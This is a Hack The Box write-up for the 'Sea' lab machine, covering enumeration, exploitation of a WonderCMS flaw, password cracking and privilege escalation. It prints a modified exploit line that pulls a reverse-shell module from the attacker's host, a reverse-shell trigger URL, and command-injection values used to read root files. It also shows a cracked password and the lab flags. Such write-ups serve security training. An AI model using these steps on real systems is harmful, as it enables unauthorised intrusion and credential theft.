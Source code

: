 # Hack the Box - "Sea" - 10.10.11.28
# Enumeration
## Nmap
### Inital Scan
Command
```
nmap -A -vv -oA enum/nmap-initial 10.10.11.28
```

Output
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZDkHH698ON6uxM3eFCVttoRXc1PMUSj8hDaiwlDlii0p8K8+6UOqhJno4Iti+VlIcHEc2THRsyhFdWAygICYaNoPsJ0nhkZsLkFyu/lmW7frIwINgdNXJOLnVSMWEdBWvVU7owy+9jpdm4AHAj6mu8vcPiuJ39YwBInzuCEhbNPncrgvXB1J4dEsQQAO4+KVH+Q
Z5ZCVm1pjXTjsFcStBtakBMykgReUX9GQJ9Y2D2XcqVyLPxrT98rYy+n5fV5OE7+J9aiUHccdZVngsGC1CXbbCT2jBRByxEMn+Hl+GI/r6Wi0IEbSY4mdesq8IHBmzw1T24A74SLrPYS9UDGSxEdB5rU6P3t91rOR3CvWQ1pdCZwkwC4S+kT35v32L8TH08Sw4Iiq806D6L2sUNORrhKBa5jQ7kGsjygTf0uahQ+g9GN
TFkjLspjtTlZbJZCWsz2v0hG+fzDfKEpfC55/FhD5EDbwGKRfuL/YnZUPzywsheq1H7F0xTRTdr4w0At8=
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMMoxImb/cXq07mVspMdCWkVQUTq96f6rKz6j5qFBfFnBkdjc07QzVuwhYZ61PX1Dm/PsAKW0VJfw/mctYsMwjM=
|   256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHuXW9Vi0myIh6MhZ28W8FeJo0FRKNduQvcSzUAkWw7z
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

### Full Scan
Command
```
nmap -A -vv -p- -oA enum/nmap-full 10.10.11.28
```

Output
```
PORT   STATE SERVICE REASON         VERSION                                
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                             
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZDkHH698ON6uxM3eFCVttoRXc1PMUSj8hDaiwlDlii0p8K8+6UOqhJno4Iti+VlIcHEc2THRsyhFdWAygICYaNoPsJ0nhkZsLkFyu/lmW7frIwINgdNXJOLnVSMWEdBWvVU7owy+9jpdm4AHAj6mu8vcPiuJ39YwBInzuCEhbNPncrgvXB1J4dEsQQAO4+KVH+Q
Z5ZCVm1pjXTjsFcStBtakBMykgReUX9GQJ9Y2D2XcqVyLPxrT98rYy+n5fV5OE7+J9aiUHccdZVngsGC1CXbbCT2jBRByxEMn+Hl+GI/r6Wi0IEbSY4mdesq8IHBmzw1T24A74SLrPYS9UDGSxEdB5rU6P3t91rOR3CvWQ1pdCZwkwC4S+kT35v32L8TH08Sw4Iiq806D6L2sUNORrhKBa5jQ7kGsjygTf0uahQ+g9GN
TFkjLspjtTlZbJZCWsz2v0hG+fzDfKEpfC55/FhD5EDbwGKRfuL/YnZUPzywsheq1H7F0xTRTdr4w0At8=
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMMoxImb/cXq07mVspMdCWkVQUTq96f6rKz6j5qFBfFnBkdjc07QzVuwhYZ61PX1Dm/PsAKW0VJfw/mctYsMwjM=
|   256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHuXW9Vi0myIh6MhZ28W8FeJo0FRKNduQvcSzUAkWw7z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:                                       
|   /:                                                     
|     PHPSESSID:                                           
|_      httponly flag not set                              
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home                                   
| http-methods:                                            
|_  Supported Methods: GET HEAD POST OPTIONS
```

## Port 80
### Nikto
Command
```
nikto -h http://10.10.11.28 -o nikto.txt
```

Output
```
- Nikto v2.5.0/
+ Target Host: sea.htb
+ Target Port: 80
+ GET /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options: 
+ GET /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/: 
+ GET /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies: 
+ HEAD Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ LTBHEKIK /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ GET /home/: This might be interesting.
```

### dirsearch
Command
```
dirsearch -u http://sea.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 401,402,403 -F -o dirsearch.txt
```

Output
```

```
 
---

# Vulnerabilities
>Page source shows this theme "[http://sea.htb/themes/bike/css/style.css](view-source:http://sea.htb/themes/bike/css/style.css)"
>Found the README file for the theme(http://sea.htb/themes/bike/README.md):\
![[Pasted image 20240821201237.png]]
>Found the Version of the Theme(http://sea.htb/themes/bike/version) 3.2.0

>Found CVE-2023-41425 vulnerability for the WonderCMS Theme(https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)
You will need to alter the exploit to download from your machine on "var urlRev =" since HTB does not allow for internet connections.
Here is the code I used
```
var urlRev = "http://sea.htb/wondercms/?installModule=http://{{IP:PORT}}/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
```

>Next go to on the website:
`http://sea.htb/themes/revshell-main/rev.php?lhost={{IP}}&lport={{{PORT}}`

>Reverse Shell established
![[Pasted image 20240821205443.png]]
---

# Privilege Escalation
## User
Password found ($2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q)
Cracked with hashcat
```
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240822143656.png]]
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`

Able to ssh login to the amay user with that password.

## Root

Devices is running port 8080 on the localhost.
![[Pasted image 20240904162158.png]]

Set port forwarding on the device to attacking machine:
```
ssh -L 8888:localhost:8080 amay@sea.htb
```

Navigated to the page `localhost:8888` and received a new login screen. I was able to login to the prompt with amay:{{password}}. This provided a System Monitor page.
![[Pasted image 20240904162533.png]]

Analyzed the auth.log and noticed it is pulling from /var/log/auth.log
![[Pasted image 20240904162745.png]]

Ran the traffic through Burp Suite and altered to read a root file, however, it did not provide the details in the file:
![[Pasted image 20240904163451.png]]

Added ";id;ifconfig;{anything}" to the command and received the response with the file contents.
![[Pasted image 20240904164226.png]]
![[Pasted image 20240904164248.png]]

---

# Loot
## User
Command
```
ifconfig;id;hostname;cat user.txt
```
>ba1fb52ba64c73cbfe806774fb71b9d7
![[Pasted image 20240822143937.png]]

## Root/Admin
Command
```
/root/root.txt;id;ifconfig;end
```
>ac043af78a64b538e07aaf736e29d02f
